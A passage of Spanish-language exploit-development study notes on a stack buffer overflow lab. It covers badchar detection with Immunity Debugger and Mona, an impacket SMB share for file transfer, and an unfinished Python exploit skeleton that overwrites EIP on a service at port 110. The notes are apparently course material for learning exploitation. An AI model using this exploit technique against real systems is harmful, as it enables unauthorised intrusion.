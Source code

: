 Lo ejecutamos y vemos que funciono y que ahora el **ESP** esta reportando las **C**

![[Pasted image 20231019134424.png]]
___________________________________
**Generación de Bytearrays y detección de Badchars**
______________________
En la generación de nuestro shellcode malicioso para la explotación del buffer overflow, es posible que algunos caracteres no sean interpretados correctamente por el programa objetivo. Estos caracteres se conocen como “**badchars**” y pueden causar que el shellcode falle o que el programa objetivo se cierre inesperadamente.

Para evitar esto, es importante identificar y eliminar los badchars del shellcode. En esta clase, veremos cómo desde Immunity Debugger podremos aprovechar la funcionalidad **Mona** para generar diferentes bytearrays con casi todos los caracteres representados, y luego identificar los caracteres que el programa objetivo no logra interpretar.

Una vez identificados los badchars, se pueden descartar del shellcode final y generar un nuevo shellcode que no contenga estos caracteres. Para identificar los badchars, se pueden utilizar diferentes técnicas, como la introducción de diferentes bytearrays con caracteres hexadecimales consecutivos, que permiten identificar los caracteres que el programa objetivo no logra interpretar.

Estos caracteres irán representados en la pila (**ESP**), que será donde veremos qué caracteres son los que no están siendo representados, identificando así los badchars.
__________________________________________
crear directorio con **mona**

```
!mona config -set workingfolder C:\Users\<usuario>\Desktop\Analysis
```

Crear **ByteArray** 

```
!mona bytearray -cpb '\x00'
```

![[Pasted image 20231019135201.png]]

Nos transferimos el archivo creado mediante **smb**

```sh
# maquina linux
impacket-smbserver smbFolder $(pwd) -smb2support

# maquina windows
\\<ip_linux>\smbFolder
```

nuevamente modificamos el script de python

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
esp = (b<byteArray>)

payload = before_eip + eip + esp

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```